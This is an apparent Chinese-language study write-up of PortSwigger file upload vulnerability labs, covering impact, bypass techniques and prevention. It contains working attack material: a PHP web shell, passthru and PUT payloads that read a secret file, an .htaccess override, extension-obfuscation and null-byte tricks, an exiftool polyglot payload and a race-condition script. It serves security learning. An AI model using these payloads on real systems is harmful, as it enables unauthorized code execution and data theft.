

# 任意檔案上傳漏洞（File Upload Vulnerabilities）

By: 孫逸平

Link: [https://portswigger.net/web-security/file-upload](https://portswigger.net/web-security/file-upload)

## 什麼是「上傳檔案漏洞」？

指一個網頁開放上傳檔案，但卻沒有對檔案設定檔名、類型、內容、大小等的限制，攻擊者就可以透過上傳檔案，進行惡意程式碼的注入，或是看到網頁中的內部重要文件。

## 上傳網頁漏洞造成的影響

關於上傳網頁漏洞的影響，一般取決於兩個關鍵因素：

- 沒有正確驗證檔案的哪個方面，例如：檔案的檔名、類型、內容、大小等
- 檔案上傳成功後，對檔案進行什麼限制？

如果沒有限制檔案的上傳類型，上傳可執行的檔案，例如：`.php`、`.jsp` 等，若網站允許執行檔案，則攻擊者就可以在檔案中注入攻擊指令。

如果沒有對檔案名稱進行限制，則攻擊者可透過上傳相同檔名的檔案，在網站調包任意資訊。

沒有對檔案大小進行限制，攻擊者也可以藉此進行 DoS 攻擊。

## 漏洞是如何產生的？

大部分的網站都會透過黑名單設一些限制，但黑名單難免還是會有漏掉的部分，就成了網站的漏洞。

## 伺服器如何處理這些靜態的檔案？

大部分網站幾乎都會將檔案儲存在某個路徑，而這些檔案的處理方式有以下幾種：

- 當檔案是不可被執行的，例如：圖像、HTML 等，則伺服器會將檔案的內容送回用戶端。
- 當檔案是可執行的，例如：PHP 等，且伺服器設定成會執行這類檔案，伺服器則會回應用戶端檔案生成的輸出。
- 當檔案是可執行的，但伺服器設定成不執行檔案，則伺服器會回應錯誤，或是檔案原始碼。

## 利用上傳檔案不受限制，上傳 Web shell

如果網站沒有對上傳的檔案進行限制，且設定成會執行檔案，則可以在檔案中添加任意的指令，例如：

```php
<?php echo system($_GET['command']); ?>
```

將上方內容製作成 `.php` 檔上傳後，就可以在網址後方，透過修改 `command` 參數來執行任何的 Shell 指令。

- [**Lab: Remote code execution via web shell upload APPRENTICE**](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
    1. 根據[指引](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)，得知密碼儲存在 `/home/carlos/secre`。
    2. 撰寫一個 `test.php` 的檔案，並上傳網頁。
        1. 檔案為 PHP 語法，透過 `passthru()` 讀取 `/home/carlos/secre` 的內容
            
            ```php
            <?php passthru("cat /home/carlos/secret"); ?>
            ```
            
    3. 上傳後對預覽照片的地方點擊右鍵，在新分頁中開啟檔案。
    4. 就得到密碼了！
    5. 在網頁上方點擊 Submit Solution，並輸入密碼後，就過關了～

## 利用漏洞上傳檔案攻擊

### 限制檔案類型的漏洞

- [**Lab: Web shell upload via Content-Type restriction bypass**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
    1. 上傳與上一個 Lab 相同的 `test.php` 檔案後，發現跳出錯誤訊息：檔案類型不可是 `text/php`，只能是 `image/jpeg` 或 `image/png`。
    2. 透過 Burp Suite 修改封包，將請求封包中，原本的 `text/php` 修改成 `image/jpeg`，再上傳後打開預覽照片，就得到密碼了！

### 對用戶可訪問的目錄進行限制

- [**Lab: Web shell upload via path traversal**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)
    1. 透過 Burp Suite 修改 `filename` 參數，改為 `../test.php` 後，發現回應顯示 `The file avatars/test.php has been uploaded.`，表示 `/` 被忽略了，所以將 `/` 改為 `%2f` 後，就回應檔案已上傳到 `avatars/../test.php`。
    2. 將網址後方改為 `/files/test.php`，就得到密碼了！

### 檔案類型黑名單設定不足

大部分都會對一些危險的檔案類型設定成黑名單，但還是可以使用一些較冷門的副檔名來攻擊，例如：`.php5`、`.shtml` 等。

### 覆蓋伺服器配置檔

- [**Lab: Web shell upload via extension blacklist bypass**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
    1. 若直接上傳 `.php` 檔，會回應伺服器不支援 `.php` 檔。
    2. 透過 Burp Suite 修改封包，讓請求傳送一個 `.htaccess` 檔，內容是：`AddType application/x-httpd-php .shell`，設定伺服器允許 `.shell` 的檔案。
    3. 上傳一個 `[test.shell](http://test.shell)`，內容為 PHP 語法，即可任意輸入 PHP 指令。
    4. 利用前幾個 Lab 的方法，就得到密碼了～

### 混淆副檔名

即使設置了黑名單，但還是有很多方式可以繞過限制：

1. 將 `.php` 修改成 `.pHp`，就能繞過一些黑名單，但程式仍可被執行。
2. 使用多個副檔名，例如：`exploit.php.jpg`。
3. 增加最後的字元，例如：空格、點等（`exploit.php.`）
4. 使用 URL 編碼，例如：`exploit%2Ephp`。
5. 使用 URL 中的分號或空位元組（%00），例如：`exploit.asp;.jpg` 或 `exploit.asp%00.jpg`。
- [**Lab: Web shell upload via obfuscated file extension**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)
    1. 利用上方的方法一一嘗試後，發現第五種方法可行
    2. 修改檔名為 `test.php%00.jpg`。
    3. 上傳完後，將網址後方修改為：`/files/test.php`，就得到答案了～

### 驗證檔案內容的漏洞

有些更安全的網站會對檔案內容進行驗證，例如：會對照片的尺寸進行驗證，一個 PHP 程式碼就不會有唯獨，就會被限制。又或者會去驗證檔案中的某個特定部分，例如：JPEG 檔始終會以 `FF D8 FF` 開頭。

但仍然可使用特殊工具（如 ExifTool）製作惡意程式碼的 JPEG 檔。

- [**Lab: Remote code execution via polyglot web shell upload**](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
    1. 上傳 `test.php` 後發現，回應說只能上傳圖片檔。
    2. 使用 exiftool 工具將任一照片的 coment 值設成：`exiftool -comment="<?php echo 'Hello world '; passthru('cat /home/carlos/secret'); echo ' this is the end';?>" {file_path}`。
    3. 將修改後的照片檔副檔名修改成 `.php` 並上傳。
    4. 利用 Burp Suite 獲取會傳的封包，就看到密碼了～

### 檔案上傳的競爭條件

網站為了避免被攻擊，會先將檔案上傳到沙盒，若發現檔案中有危害的程式，就會刪除檔案。

競爭條件就是在判斷是否有危害程式的時候，立即抓去檔案下來。這種方式必須使用程式來執行，或透過 Turp Intruder 等工具，在短時間內上傳檔案並下載檔案。

- [**Lab: Web shell upload via race condition**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)
    1. 上傳一張照片，並打開照片。
    2. 上傳一個 `test.php` 檔，回應顯示只能上傳照片檔。
    3. 使用 Turp Intruder，貼上這段程式：
        
        ```python
        def queueRequests(target, wordlists):
            engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)
        
            request1 = '''<YOUR-POST-REQUEST>'''
        
            request2 = '''<YOUR-GET-REQUEST>'''
        
            # the 'gate' argument blocks the final byte of each request until openGate is invoked
            engine.queue(request1, gate='race1')
            for x in range(5):
                engine.queue(request2, gate='race1')
        
            # wait until every 'race1' tagged request is ready
            # then send the final byte of each request
            # (this method is non-blocking, just like queue)
            engine.openGate('race1')
        
            engine.complete(timeout=60)
        
        def handleResponse(req, interesting):
            table.add(req)
        ```
        
    4. 將 `<YOUR-POST-REQUEST>` 修改成上傳 `test.php` 的封包。注意：需在封包最後加入 `\r\n\r\n`。
    5. 將 `<YOUR-GET-REQUEST>` 修改成上傳照片的封包，並將抓去的路徑修改成 `GET /files/avatars/<YOUR-IMAGE>`。注意：需在封包最後加入 `\r\n\r\n`。
    6. 點擊下方 Attack 按鈕後，選擇狀態碼為 200 的回應封包，就看到密碼了～

### 基於 URL 的檔案上傳的競爭條件

為了更加安全，伺服器會建立隨機檔名的副本。但有些工程師會 `uniqid()` 作為檔案名稱，就較容易被攻擊。

為了讓攻擊更容易，可以嘗試延長檔案處理時間，例如：上傳更大的檔案。

## 利用檔案上傳漏洞進行遠端代碼執行

### 上傳惡意用戶端指令檔案

就算無法在伺服器上執行指令，還是可以透過上傳 SVG、HTML 等檔案，並在其中加入 `<script>` 標籤，來進行 XSS 攻擊。

### 檔案上傳的解析漏洞

你可以透過 Microsoft 的 `.doc` 或 `.xls` 等，基於 XML 的檔案，注入 XSS 的攻擊

## 使用 PUT 上傳檔案

有些伺服器支持 PUT 請求，如果伺服器缺乏適當的防禦，就能上傳惡意檔案。

```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

可以使用 `OPTIONS` 嘗試針對不同位置，測試是否支援 `PUT`。

## 如何預防檔案上傳漏洞

- 使用白名單而非黑名單，設定可上傳的檔案類型。
- 確保檔名不可包含目錄及遍歷等字串（`../`）。
- 為檔名重新命名。
- 在文件經過驗證前，不要將檔案上傳到伺服器的文件系統中。
- 使用已建立好的驗證方式，而非自行撰寫驗證程式。

## 附錄

最後附上七個 Lab 全部完成的截圖：


